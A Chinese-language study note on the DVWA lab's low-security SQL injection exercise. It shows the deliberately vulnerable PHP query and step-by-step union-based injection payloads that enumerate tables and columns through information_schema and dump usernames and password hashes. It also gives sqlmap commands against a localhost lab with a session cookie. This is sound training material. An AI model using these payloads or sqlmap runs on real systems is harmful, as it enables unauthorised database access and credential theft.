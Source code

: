 ```yaml
---
title: "dvwa-sql-显注-low"
date: 2020-04-15 17:38:31
categories: secure
tags: 
- secure
- sql
- ctf
---
```


# dvwa-sql-显注-low

> 就拿dvwa学习一下sql的手工注入,以及sqlmap的使用
>
> 做些笔记

## tip

1. concat_ws(1,2,3): 使用1作为连接符,连接2和3

   方便从一个显示位,显示多种内容

2. char(32,58,32): char将其中的ascii值转成字符

   这里是空格冒号空格

   作为concat_ws使用,比较美观

## low

源码

```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}
?>
```



### 手工注入

1. 输入`'`,发现有报错,说明很可能有sql注入

2. `1' order by 2#`猜解列数

   order by后面加数字时,表示按第几列进行排序

   如果没有那列的话,就会报错

   该步的目的,是为了使用union select

   因为union select 要求两者的列数相同,才能进行查询

   ![Snipaste_2020-04-15_10-48-47](Snipaste_2020-04-15_10-48-47.png)

   ![Snipaste_2020-04-15_10-48-55](Snipaste_2020-04-15_10-48-55.png)

3. `1' union select 1,2#`爆显示位

   从输入中,可以发现,两个都能显示出来

   也就是说,每次可以查询两个地方

   ![Snipaste_2020-04-15_10-51-10](Snipaste_2020-04-15_10-51-10.png)

4. `1' union select version(),database()#`

   查询一下sql版本和当前数据库名称

   sql版本很重要,因为版本>(多少我忘了><)时,会有一个`information_schema`数据库,里面有好多好多好东西

   ![Snipaste_2020-04-15_10-47-58](Snipaste_2020-04-15_10-47-58.png)

   `1' union select null,concat_ws(char(32,58,32),user(),database(),version())#`

   另一种方法,会在第二个显示位一起爆出用户、数据库及其版本信息

   ![Snipaste_2020-04-15_16-23-32](Snipaste_2020-04-15_16-23-32.png)

5. `1' union select null,group_concat(table_name) from information_schema.tables where table_schema='dvwa' #`

   版本比较大,所以有`information_schema`;得知数据库名后,就可以查表了

   ![Snipaste_2020-04-15_16-27-26](Snipaste_2020-04-15_16-27-26.png)

   可以看出dvwa中有两个表`guestbook`and`users`

   明显users重要点,所以下一步查users的列

6. `1' union select null,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' #`

   ![Snipaste_2020-04-15_16-38-54](Snipaste_2020-04-15_16-38-54.png)

   其中`user`和`password`看起来比较重要

7. `1' union select null, group_concat(concat_ws(char(32,58,32),user,password)) from users #`

   ![Snipaste_2020-04-15_16-43-02](Snipaste_2020-04-15_16-43-02.png)

8. 如果不想显示在一条上,而是分开查询的话,把group_concat删了就行

   - 查表

     `1' union select null,table_name from information_schema.tables where table_schema='dvwa' #`

     ![Snipaste_2020-04-15_16-46-11](Snipaste_2020-04-15_16-46-11.png)

   - 查列

     `1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users' #`

     ![Snipaste_2020-04-15_16-46-27](Snipaste_2020-04-15_16-46-27.png)

   - 查内容

     `1' union select null, concat_ws(char(32,58,32),user,password) from users #`

     ![Snipaste_2020-04-15_16-46-37](Snipaste_2020-04-15_16-46-37.png)



### sqlmap

1. 准备好网址

   在id中输入1,是的url中包含参数名称

   ```
   http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#
   ```

2. 准备好cookie

   ```
   security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1
   ```

3. 打开sqlmap,输入

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch
   ```

   康康有没有sql注入

   - -u参数指定目标URL
   - --batch参数采用默认选项,不进行询问
   - --cookie参数指定cookie

   可以看到是存在注入的

   ![Snipaste_2020-04-15_17-13-57](Snipaste_2020-04-15_17-13-57.png)

4. 查看所有的数据库

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch --dbs
   ```

   - --dbs所有数据库

   ![Snipaste_2020-04-15_17-15-16](Snipaste_2020-04-15_17-15-16.png)

5. 所以我们要用的应该是dvwa那个库,然后康康里面有什么表

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch -D dvwa --tables
   ```

   - -D参数指定为dvwa数据库
   - --tables参数查看所有的表

   ![image-20200415171817802](image-20200415171817802.png)

6. 查看users表中的列

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch -D dvwa -T users --columns
   ```

   - -T参数指定表为users
   - --columns查看该表的所有列

   ![image-20200415172014493](image-20200415172014493.png)

7. 最后看看整个表中都有什么

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch -D dvwa -T users --dump
   ```

   - --dump参数将所有列的信息都列出来

   ![image-20200415172329770](image-20200415172329770.png)



